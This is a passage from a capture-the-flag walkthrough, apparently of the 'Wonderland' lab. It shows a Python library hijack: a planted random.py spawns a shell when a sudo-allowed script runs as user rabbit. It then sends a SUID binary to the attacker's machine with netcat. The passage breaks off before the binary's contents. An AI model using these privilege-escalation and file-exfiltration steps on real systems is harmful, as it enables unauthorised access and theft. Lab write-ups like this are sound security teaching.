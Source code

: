 - So you can run the walrus file with rabbit privilege but you can't edit the file. Hmm.

- Notice that the file `import random`. 

- Running `locate random.py` points to the python library folder but we don't have any permission to edit the file there either.

- How about we create our random.py that spawn a shell? That way we can have a shell under rabbit.

```
alice@wonderland:~$ touch random.py
alice@wonderland:~$ echo "import os; os.system('/bin/sh')" > random.py
```

- Notice that these 3 commands don't work. Silly me, I should have use the EXACT command that `sudo -l` tells us to use.

```shell
# NOT WORKING
alice@wonderland:~$ sudo -u rabbit python3 walrus_and_the_carpenter.py 
Sorry, user alice is not allowed to execute '/usr/bin/python3 walrus_and_the_carpenter.py' as rabbit on wonderland.
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3 walrus_and_the_carpenter.py 
Sorry, user alice is not allowed to execute '/usr/bin/python3 walrus_and_the_carpenter.py' as rabbit on wonderland.
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3 /home/alice/walrus_and_the_carpenter.py 
Sorry, user alice is not allowed to execute '/usr/bin/python3 /home/alice/walrus_and_the_carpenter.py' as rabbit on wonderland
```

- This one will work.

```shell
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
$ whoami
rabbit
```

## Rabbit

- You will see an executable call `teaParty`. However you can't examine it here because we lack tools. Notice it also has SUID and SGID bit set.

- Sending the file to our box using netcat. (SCP won't work because you don't know rabbit's password).

- Tutorial https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/

```shell
# On our box:
nc -l -p 4444 > teaParty

# On wonderland:
nc -w 3 10.2.51.175 4444 < teaParty
```

- Content of `teaParty`:
